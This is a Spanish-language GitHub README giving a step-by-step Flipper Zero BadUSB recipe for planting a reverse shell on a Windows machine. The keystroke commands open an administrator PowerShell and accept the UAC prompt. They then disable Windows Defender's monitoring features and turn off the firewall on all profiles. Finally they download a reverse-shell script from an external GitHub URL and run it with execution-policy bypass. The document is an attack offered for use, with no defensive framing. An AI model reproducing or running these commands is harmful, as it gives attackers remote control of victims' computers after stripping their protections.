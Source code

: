 # PASOS PARA INYECTAR UNA REVERSESHELL EN UN EQUIPO DESDE UN FLIPPER ZERO.

1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb(simplified).png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.



















